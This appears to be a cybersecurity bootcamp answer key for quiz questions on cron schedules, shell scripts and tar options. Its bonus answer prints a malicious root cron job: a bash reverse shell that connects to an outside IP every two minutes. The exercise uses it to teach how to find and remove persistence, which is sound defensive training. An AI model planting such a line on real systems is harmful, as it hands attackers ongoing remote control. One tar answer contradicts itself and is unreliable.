 ## Solution File: Reviewing Crons

1. Answer the following `cron` assessment questions:

    - When will the following `cron` schedules run?

      `*/10 * * * *` 

       - **Solution:** At every 10th minute.

    - What event is the following `cron` a minute away from?

      `59 23 31 12 *`

       - **Solution:** New Years!

    - What do the following hypothetical `cron` likely do?

        - `0 18 * * 1-5 /home/Bob/Sales/sum_of_sales.sh`

            - **Solution:** Run a script that adds up all the sales for the work day.

        - `@weekly /home/sysadmin/Scripts/auto-update.sh`

            - **Solution:** A weekly automated system update.

2. Answer the following `script` assessment questions:

    - What is a "shebang"?

        - **Solution:** It is the commented file declaration at the top of a shell script.

    - What two characters should come before the filename of a script?

        - **Solution:** `./`

    - Jane's script has "user" and "group" ownership of a script with `-rw-r--r--` permissions, but she cannot get it to run. What must she do to the file before it will run?

        - **Solution:** Run `chmod +x` on her file!

3. Answer the following `tar` assessment questions:

    - How does the `-x` option modify the `tar` command?

        - **Solution:** This option will let `tar` extract an archive!

    - If a directory has `ten` files and the following command is used in it, how many files are being archived?

        -   `tar cvvWf backups/archive.tar .`

            - **Solution:** Zero, because tar doesn’t compress! But all files should be archived as they're all in the current directory!

    - What option prints the full file specification of files as you interact with them?

        - **Solution:** `-vv`

    - Why is the `-f` option used in almost every `tar` operation?

        - **Solution:** The `-f` option lets you designate a `tar` file to either "create" or "extract" or "list" from.

4. **Bonus:** You are tasked to look through the `cron` jobs within your current workstation to see if any suspicious or modified cron jobs exist. Remove the one that matches the following descriptions: `Cron` is running system-level jobs with `root` privileges. The `cron` task you're looking for involves another machine.

   - Run: `sudo crontab -e` to open the `root` `crontab`.

   - The cron you wanted to remove was:

   - `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.  
